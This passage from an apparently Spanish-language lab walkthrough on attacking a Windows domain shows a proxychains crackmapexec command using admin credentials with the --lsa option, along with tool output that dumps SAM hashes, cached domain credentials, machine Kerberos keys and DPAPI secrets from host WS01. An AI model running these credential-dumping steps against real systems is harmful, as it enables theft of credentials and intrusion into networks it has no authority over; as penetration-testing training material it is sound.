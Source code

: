 ```
SMB         192.168.5.208   445    WS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
SMB         192.168.5.208   445    WS01             santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
SMB         192.168.5.208   445    WS01             [+] Added 5 SAM hashes to the database
```

Vemos que ha funcionado y nos lo ha volcado.

O si queremos mejor saber todos los usuarios `cacheados` del sistema a nivel de dominio con el `lsass`.

```shell
proxychains4 crackmapexec smb 192.168.5.208 -u 'Administrator' -d 'corp' -p '1234' --lsa
```

Info:

```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:135 <--denied
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:corp) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
SMB         192.168.5.208   445    WS01             [+] corp\Administrator:1234 (Pwn3d!)
SMB         192.168.5.208   445    WS01             [+] Dumping LSA secrets
SMB         192.168.5.208   445    WS01             CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-25 08:10:18)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-21 09:28:20)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
SMB         192.168.5.208   445    WS01             CORP\WS01$:aes256-cts-hmac-sha1-96:9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
SMB         192.168.5.208   445    WS01             CORP\WS01$:aes128-cts-hmac-sha1-96:73670fc7a88720c24ff4c869dc84a9c1
SMB         192.168.5.208   445    WS01             CORP\WS01$:des-cbc-md5:8c5bea107cc8c804
SMB         192.168.5.208   445    WS01             CORP\WS01$:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00     
SMB         192.168.5.208   445    WS01             CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8:::
SMB         192.168.5.208   445    WS01             dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af                                                                                                                                     
SMB         192.168.5.208   445    WS01             NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
SMB         192.168.5.208   445    WS01             [+] Dumped 11 LSA secrets to /home/kali/.cme/logs/WS01_192.168.5.208_2025-01-25_050803.secrets and /home/kali/.cme/logs/WS01_192.168.5.208_2025-01-25_050803.cached
```

